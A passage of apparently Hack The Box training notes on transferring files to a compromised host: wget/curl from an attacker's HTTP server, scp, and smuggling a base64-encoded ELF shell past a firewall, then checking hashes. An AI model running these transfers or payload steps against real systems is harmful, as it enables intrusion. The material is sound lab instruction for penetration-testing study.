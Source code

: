 ### Using wget : 

```shell-session
NolanCarougeHTB@htb[/htb]$ cd /tmp
NolanCarougeHTB@htb[/htb]$ python3 -m http.server 8000
```

```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

### Using SCP :

```shell-session
NolanCarougeHTB@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh
```

### Using Base64 : 

If the machine has a firewall.

```shell-session
NolanCarougeHTB@htb[/htb]$ base64 shell -w 0
```

```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

### Validating File Transfers : 

```shell-session
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

We can calculate the hashes and check if the files are the same.
```shell-session
NolanCarougeHTB@htb[/htb]$ md5sum shell

user@remotehost$ md5sum shell
```

## Nibbles - Enumeration : 
